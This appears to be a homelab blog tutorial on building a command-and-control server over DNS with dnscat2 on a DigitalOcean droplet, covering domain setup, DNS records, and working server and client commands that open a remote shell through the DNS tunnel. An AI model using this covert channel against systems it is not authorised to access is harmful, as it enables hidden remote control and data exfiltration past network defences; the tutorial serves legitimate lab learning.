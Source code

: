 ```yaml
---
title: C2 over DNS
categories: [homelab]
tags: [homelab,dns]     # TAG names should always be lowercase
---
```

[main](/posts/homelab_intro)

# Command and Control server over DNS
Sources:
[TryHackMe | DNS in detail](https://tryhackme.com/room/dnsindetail),
[TryHackMe | DNS Manipulation](https://tryhackme.com/room/dnsmanipulation),
[TryHackMe | Data Exfiltration](https://tryhackme.com/room/dataxexfilt).
(These sources explain ways to exfiltrate data over DNS using python and iodine)

Setup your own authoritative DNS server using AWS: [STOK's video](https://www.youtube.com/watch?v=p8wbebEgtDk) 
	
You can use `iodine`, `dnscat2`, and `cobalt strike` for c2 over DNS. I am using dnscat2 on a digitaloceans droplet.

## DNS server setup using digitaloceans
1. Spin up a droplet (2GB memory) - You'll get a public ip address
2. Connect to the server. On Windows, you can use the Terminal app with WSL(Ubuntu or Kali) on Windows. You can SSH into the server and continue with the following steps.
3. You'll get a root user access. Create a new user on the server.
4. Take a snapshot of the droplet
5. Setup the firewall rules for the droplet. All traffic in and out shall be blocked by default. So, you have to manually enable them for your droplet. Manage > Networking > Firewalls

### Firewall rules:
![Inbound rules](/assets/img/inbound_do_rules.png)
![Outbound rules](/assets/img/outbound_do_rules.png)

## Get a Domain Name
- I went with hostgator. You can find cheap(<$1) domain names like the `.site` TLD.
- Other popular options include namecheap and godaddy.
- You can get a free subdomain from EU.org. You can donate to `nic.eu.org` later if you can't afford a domain name now.
- "The main goal of EU.org is to provide free subdomain registration to users or non-profit organizations who cannot afford the fees demanded by some NICs" - [nic.eu.org](https://nic.eu.org/)
- The only drawback is that it would take about a month for approval. (When asked for nameservers, just point it to the digitalocean nameservers after you setup the domain management)

## Domain management using digitaloceans
[DNS Propagation Checker - Global DNS Testing Tool (whatsmydns.net)](https://www.whatsmydns.net/)
- Configure the nameservers to digitalocean nameservers at your domain provider account.
- Add a domain to your droplet

> While making records, make sure that you keep the ttl low till things work (Initially, I chose one-tenth value. Now they are back to defaults).
{: .prompt-info}

More info: [How to choose DNS TTL values - APNIC Blog](https://blog.apnic.net/2019/09/27/how-to-choose-dns-ttl-values/)

Set the Records as follows:

![DNS records](/assets/img/dns_records_do.png)

## dnscat2 setup
> Take the server snapshot before you proceed
```bash
# on client
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
sudo apt install gcc make
sudo make
# Also, you can wget from the c2 server
# You can use the following command for a directory:
	# wget --no-parent -r http://example.com/DIRECTORY
```

> Installation on the server - as a regular user (not as a root):
{: .prompt-warning}

```bash
# install ruby (or "ruby-dev" if you get an error: `require` - loaderror) and gem
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo chown -R example_user /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> 
	start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat --dns port=53531,server=example.com --secret=<secret_value>
# use the ip address instead of example.com if your domain name is not resolving 

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
	
# you can run multiple servers on multiple ports using dnscat2. The client can send different packets to different ports
```
learn more from: [dnscat2](https://github.com/iagox86/dnscat2.git)

Network traffic:
![dns](/assets/img/dnscat2_traffic_blur.png)